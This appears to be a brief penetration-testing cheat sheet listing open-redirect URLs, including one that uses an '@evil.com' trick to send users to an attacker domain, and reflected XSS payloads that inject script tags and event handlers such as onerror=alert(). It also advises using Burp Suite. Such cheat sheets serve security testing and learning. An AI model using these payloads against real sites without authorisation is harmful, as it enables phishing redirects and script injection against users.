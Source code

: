 # Open redirect

- __`https://test.com/?redirect=https://www.google.com`__
- __`https://test.com/?redirect=https://www.google.com@evil.com`__


# Cross-Site Scripting (XSS)

- __`/?name=">test123`__
- __`/?name=">test123<script>alert(1)</script>`__
- __`/?name=">test123<script>alert(1);//</script>`__
- __`/?name=">test123<image src=x onerror=alert()>`__
- __`/?name=">test123<image src=x onmouseover=alert()>`__
- __`/?name=">test123<image src=x onmouseover=document.write(1)>`__
- __`/?name=javascript:alert()` or `/?name=<a href=javascript:alert(1)>test123`__
- > __If you are not getting /?name=test123 in url you can use burpsuite__
  - ![image1](https://github.com/Chittu13/All_in_one/blob/main/image/image1.png)
